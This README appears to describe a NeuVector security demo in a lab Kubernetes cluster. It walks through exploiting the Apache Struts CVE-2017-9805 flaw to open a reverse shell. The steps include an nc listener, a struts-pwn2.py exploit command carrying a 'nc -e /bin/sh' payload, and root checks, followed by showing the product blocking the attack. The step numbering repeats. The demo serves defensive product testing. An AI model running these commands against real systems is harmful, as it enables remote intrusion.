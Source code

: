 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
install_orders     = true
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `protect mode`

4. connect to the client with ssh (see connection string in terraform output) and start a nc process to act as reverse shell
```
nc -lvp 1337

```

5. in a second terminal, ssh to the client (see connection string in terraform output) and execute the attack payload. The exact command is written to `~/struts1.sh` and can be executed with
```
sh struts1.sh
```

6. Look in the Neuvector security events how the Struts RCE is blocked

7. Put the policy group `nv.struts-orders.default` in `monitor mode` and execute the rce payload again
```
sh struts1.sh
```
notice how the orders workload connects to the reversed shell and execute some commands there, like `whoami` `ls -l`, etc...

8. Look in the Neuvector security events how Neuvector now warns about different violations on the security policy, each warning is one layer of protection so even if this was a zero day the other warnings would block the attempt in protect mode.

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- bash
python3 /payloads/struts-pwn2.py --exploit --url 'http://URL/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh'
```
where `X.X.X.X` is the IP to the kali service you got in step 4
and the URL is the HOSTS of struts-orders ingress `kubectl get ingress struts-orders`

7. In the reverse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
